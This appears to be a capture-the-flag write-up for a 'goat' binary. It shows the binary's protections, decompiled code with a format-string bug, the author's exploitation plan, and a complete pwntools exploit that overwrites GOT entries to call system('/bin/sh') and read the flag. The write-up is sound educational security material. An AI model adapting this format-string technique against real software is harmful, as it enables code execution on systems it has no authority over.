




### I. check mitigation
```D
Arch:     amd64
RELRO:      Partial RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x3fe000)
RUNPATH:    b'.'
Stripped:   No
```
### II. IDA
```C
int __fastcall main(int argc, const char **argv, const char **envp)
{
  _QWORD v4[2]; // [rsp+0h] [rbp-C0h] BYREF
  char s1[64]; // [rsp+10h] [rbp-B0h] BYREF
  char s[104]; // [rsp+50h] [rbp-70h] BYREF
  unsigned __int64 v7; // [rsp+B8h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  v4[0] = 'TAOG';
  v4[1] = 0LL;
  snprintf(
    s,
    95uLL,
    "Welcome to the %s simulator!\nLet's see if you're the %s...\nWhat's your name? ",
    (const char *)v4,
    (const char *)v4);
  printf(s);
  fgets(s1, 32, stdin);
  snprintf(s, 95uLL, "Are you sure? You said:\n%s\n", s1);
  printf(s);
  fgets(s1, 16, stdin);
  if ( !strncmp(s1, "no", 2uLL) )
  {
    puts("\n?? Why would you lie to me about something so stupid?");
  }
  else
  {
    snprintf(s1, 0x3FuLL, "\nSorry, you're not the %s...", (const char *)v4);
    puts(s1);
  }
  return 0;
}
```
### III. analyze
- partial relro, no PIE, one fmtstr bug w limited input size, many funcs like `puts`, `printf`, `strncmp`, ...
-  again, first step is always to create a loop, and then overwrite some GOT to loop and execv `system("/bin/sh")`
- to loop, i aim to overwrite `puts@got` w `main()` addr, since we only use it once at the end and its plt addr is still at binary addr
- here i choose addr at the beginning of `main()`, it will add more space to overwrite later bco `sprintf`, the data we input from "first name" and "last name" will be modified



- then leak libc, stack
- now we need to overwrite 3 LSB of another GOT to trigger `system()` in one go otherwise it will error when loop back
- but to overwrite 3 bytes, we have to divide into 2 parts: 2 bytes and 1 bytes, plus target addr and target addr + 1/2

- we don't have that much space, so the only solution is to put target addr on stack before overwriting (that's why its necessary to loop from start of `main()` to add space to stack)
- and finally, overwrite, here i chose `strncmp@got` (i think `snprintf@got` is still fine, havent tested yet), w `system` and set `s1 = /bin/sh\x00`
- thats all. actually the approach is not too diff, but it took me a looong time to debug and find the solution :(

-> overall, since we have partial relro, no PIE, one fmtstr bug w limited input size, many funcs like `puts`, `printf`, `strncmp`, ..., the path will be:
**create a loop by overwrite GOT -> leak libc -> store GOT on stack -> overwrite 3 LSB of another GOT that has input as first arg to trigger `system("/bin/sh")` before loop**
### IV. PoC
```python
#!/usr/bin/env python3
from pwn import *
import binascii
import sys

exe_path = 'goat_patched'
HOST = 'example.com'
PORT = 1337

exe = ELF(exe_path, checksec=False)
libc = ELF('libc.so.6', checksec=False)
context.binary = exe
context.terminal = [
    'cmd.exe', '/c', 'start',
    'wt.exe', '-w', '0', 'split-pane', '-V',
    '-d', '.',
    'wsl.exe',
    '-d', 'kali-linux',
    'bash', '-c'
]

gdbscript = '''
b*main
b*0x40125d
b*0x40124c
b*0x401278
c
'''

def start():
    if args.REMOTE:
        return remote(HOST, PORT)
    p = process(exe.path)
    if args.GDB:
        gdb.attach(p, gdbscript=gdbscript)
        input()
    return p

p = start()

def sla(prompt, data):
    p.sendlineafter(prompt, data)
def sa(prompt, data):
    p.sendafter(prompt, data)
def s(prompt):
    p.send(prompt)
def sl(data):
    p.sendline(data)

# ============================EXPLOIT============================
# overwrite puts@got = main
puts_got = 0x404008
strncmp_got = 0x404000

main = 0x4011f0

payload = b'%4568c%10$hn' + b'A'*4 + p64(puts_got)

# leak save rbp (stack), saved rip (libc)
sla(b'your name? ', payload)
sl(b'DTM')
# pause()

sla(b'your name? ', b'%11$p.%54$p.')
p.recvuntil(b'Are you sure? You said:\n')
srbp = int(p.recvuntil(b'.')[:-1], 16)-0x10
libc.address = int(p.recvuntil(b'.')[:-1], 16)-0x2044e0
log.info(f'saved rbp: {hex(srbp)}')
log.info(f'libc: {hex(libc.address)}')

system = libc.sym['system']

sl(b'DTM')

# pause()

padding = int(strncmp_got)-0x18
payload = f'%{padding}c%10$n'.encode().ljust(16, b'\x00') + p64(srbp-0x88)
sla(b'your name? ', payload)
sl(b'DTM')

# pause()
padding = int(strncmp_got+1)-0x18
payload = f'%{padding}c%10$n'.encode().ljust(16, b'\x00') + p64(srbp-0x80)
sla(b'your name? ', payload)
sl(b'DTM')

log.info(f'LAST STEP')
# pause()
log.info(f'system: {hex(system)}')
part1 = int(system & 0xff)-0x18
part2 = (int(system >> 8 & 0xffff)) - 0x18 - part1
payload = f'%{part1}c%91$hhn%{part2}c%92$hn'.encode()
sla(b'your name? ', payload)
sl(b'/bin/sh\x00')

sl(b'cat flag*')

p.interactive()

```
